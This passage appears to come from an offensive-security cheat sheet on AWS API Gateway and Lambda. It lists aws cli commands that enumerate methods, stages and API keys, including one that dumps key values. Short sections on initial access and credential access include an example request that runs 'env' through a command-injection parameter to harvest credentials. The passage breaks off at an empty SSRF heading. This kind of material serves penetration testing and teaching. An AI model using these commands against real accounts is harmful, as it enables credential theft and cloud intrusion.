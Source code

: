 ### Listing method information for the endpoint

```
aws apigateway get-method --rest-api-id ApiID --resource-id ID --http-method method
```

* Test various methods to see if the API supports it.

### Listing all versions of a rest api 

```
aws apigateway get-stages --rest-api-id ID
```

### Getting informatin about a specific version 

```
aws apigateway get-stage --rest-api-id ID --stage-name NAME
```

### Listing API KEYS

```
aws apigateway get-api-keys --include-values
```

### Getting information about a specific API Key

```
aws apigateway get-api-key --api-key KEY
```

## Initial Access

* It's possible to get RCE through API Gateway if it executes commands.
* If you can execute commands, there is a way to retrieve keys from the API Gateway, just use `env`, configure `aws cli` and proceed with the exploitation.

## Credential Access

Getting credentials from Lambda can be done in 2 ways

1. Keys in the source code
2. Keys in the environment variables

These keys can be gathered using SSRF, RCE and so on.

### Getting credentials using RCE

```
https://apigateway/prod/system?cmd=env
```

### Getting credentials using SSRF
